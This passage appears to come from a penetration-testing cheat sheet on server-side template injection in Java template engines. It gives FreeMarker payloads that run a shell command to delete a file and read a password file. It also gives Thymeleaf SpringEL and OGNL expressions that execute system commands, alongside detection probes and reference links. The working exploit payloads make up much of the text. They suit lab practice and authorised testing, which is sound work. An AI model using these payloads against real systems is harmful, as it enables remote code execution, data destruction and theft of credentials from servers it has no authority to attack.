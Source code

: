 #### **Attack**

At this point you should have a **firm idea of the attack surface available** to you and be able to proceed with traditional security audit techniques, reviewing each function for exploitable vulnerabilities. It's important to approach this in the context of the wider application - some functions can be used to exploit application-specific features. The examples to follow will use template injection to trigger arbitrary object creation, arbitrary file read/write, remote file include, information disclosure and privilege escalation vulnerabilities.

## Exploits

### FreeMarker \(Java\)

* `{{7*7}} = {{7*7}}`
* `${7*7} = 49`
* `${7*'7'} Nothing`
* `${foobar}`

```text
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

#### More information

* In FreeMarker section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker)

### Velocity \(Java\)

#### More information

* In Velocity section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#velocity](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity)

### Thymeleaf \(Java\)

The typical test expression for SSTI is `${7*7}`. This expression works in Thymeleaf, too. If you want to achieve remote code execution, you can use one of the following test expressions:

* SpringEL: `${T(java.lang.Runtime).getRuntime().exec('calc')}`
* OGNL: `${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("calc")}`

However, as we mentioned before, expressions only work in special Thymeleaf attributes. If it’s necessary to use an expression in a different location in the template, Thymeleaf supports _expression inlining_. To use this feature, you must put an expression within `[[...]]` or `[(...)]` \(select one or the other depending on whether you need to escape special symbols\). Therefore, a simple SSTI detection payload for Thymeleaf would be `[[${7*7}]]`.
